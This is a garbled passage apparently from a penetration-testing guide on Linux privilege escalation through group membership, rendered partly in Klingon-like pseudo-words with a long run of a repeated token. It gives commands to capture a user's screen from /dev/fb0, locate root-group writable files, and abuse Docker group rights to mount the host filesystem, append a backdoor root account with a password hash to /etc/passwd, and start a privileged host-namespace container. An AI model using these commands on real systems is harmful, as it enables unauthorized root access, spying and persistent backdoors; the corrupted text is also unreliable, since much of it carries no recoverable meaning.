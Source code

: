 **video** **ghom** **qawHaq** **ghItlh**. **screens** **observe** **jatlh** **raw data** **grab** **screen** **image** **current** **resolution** **get**. **screen data** `/dev/fb0` **save** **able** **screen** **resolution** `/sys/class/graphics/fb0/virtual_size` **find**.
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
**ghItlh** **raw image** **vItlhutlh** **GIMP** **vIlegh**, **`screen.raw`** **file** **vIlegh** **'ej** **Raw image data** **file type** **vIlegh**:

![](<../../../.gitbook/assets/image (287) (1).png>)

**'ej** **Width** **'ej Height** **vItlhutlh** **vIlegh** **'ej** **Image Types** **chel** **(latlh)** **'ej** **vItlhutlh** **'ej** **screen** **vItlhutlh** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'
```bash
find / -group root -perm -g=w 2>/dev/null
```
## Docker Group

**vItlhutlh** **Docker Group** **chaw'** **root filesystem** **host machine** **instance's volume** **mount** **'e'** **'ej** **instance** **start** **'e'** **chroot** **volume** **'e'** **load**. **'ej** **'oH** **root** **machine** **'e'** **ghItlh**.
```bash
docker image #Get images from the docker service

#Get a shell inside a docker container with access as root to the filesystem
docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash
#If you want full access from the host, create a backdoor in the passwd file
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /etc/passwd

#Ifyou just want filesystem and network access you can startthe following container:
docker run --rm -it --pid=host --net=host --privileged -v /:/mnt <imagename> chroot /mnt bashbash
```
Finally, if you don't like any of the suggestions of before, or they aren't working for some reason (docker api firewall?) you could always try to **run a privileged container and escape from it** as explained here:
